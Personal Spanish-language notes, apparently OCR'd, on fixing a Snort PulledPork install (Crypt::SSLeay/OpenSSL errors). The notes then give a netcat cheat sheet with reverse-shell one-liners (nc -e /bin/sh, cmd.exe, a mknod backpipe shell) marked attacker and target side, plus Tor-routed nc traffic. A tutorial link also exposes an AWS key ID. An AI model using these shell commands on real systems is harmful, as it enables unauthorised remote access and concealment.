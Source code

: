 Siguiendo el Step by Step: (https://s3.amazonaws.com/snort-org-site/production/document_files/files/000/000/069/original/Snort-IPS-Tutorial.pdf?AWSAccessKeyId=AKIAIXACIED2SPMSC7GA&Expires=1456431963&Signature=SWPzAjItKty46b%2B0qXkqRGy6Vro%3D)    mega.z -_-

Despues de configurar pulledpork......... 
$ /usr/local/bin/pulledpork.pl -c /usr/local/etc/snort/pulledpork.conf -T -l
"If all goes well, PulledPork consolidated all rules into one file at /etc/snort/rules/snort.rules" ;)



- ERROR   Can't locate Crypt/SSLeay.pm....bla bla bla....BEGIN failed--compilation aborted at /usr/local/bin/  pulledpork.pl line 28.

__________>>>> solucion:  $ perl -MCPAN -e shell
           (perl shell)   $ install Crypt::SSLeay (Ojo! ver Posible ERROR:) solucion: apt-get install libssl-dev       

Posible ERROR:     openssl-version.c:2:30: fatal error: openssl/opensslv.h: No existe el fichero o el directorio
 #include <openssl/opensslv.h>
                              ^
compilation terminated.
Failed to build and link a simple executable using OpenSSL
No 'Makefile' created  NANIS/Crypt-SSLeay-0.72.tar.gz
  /usr/bin/perl Makefile.PL INSTALLDIRS=site -- NOT OK
Failed during this command:
 NANIS/Crypt-SSLeay-0.72.tar.gz               : writemakefile NO -- No 'Makefile' created


Notas utiles: https://github.com/nanis/Crypt-SSLeay
              https://metacpan.org/pod/Crypt::SSLeay#INSTALL
              




 _  _  ___  ___ __   _  ___ 
| \| || __||_ _/ _| / \|_ _|
| \\ || _|  | ( (_ | o || | 
|_|\_||___| |_|\__||_n_||_| 
                          
NETCAT

Compilando Netcat:
Flags options:     -t (telnet)  -e (gaping security hole)
#

#netcat -lpv 9999                         → escuchando en el puerto 9999
#netcat -e /bin/sh 192.9.200.99 9999      →se conecta al listen abierto en el anterior comando abriendo una shell(LINUX)
#netcat -e cmd.exe 192.9.200.99 9999      →se conecta al listen abierto y abre una terminal cmd.exe" WINDOWS
#nc -n -X 5 -x 127.0.0.1:9050 <target_host> <target_port>  →Pasar el tráfico de nc a través de TOR

If GAPING_SECURITY_HOLE is disabled, tenemos varias opciones:
#nc -n -vv -l -p 666        							→(attacker side (192.9.200.10))
#mknod backpipe p && nc 192.9.200.10 666 0<backpipe | /bin/bash 1>backpipe      →(target side)
Enjoy....
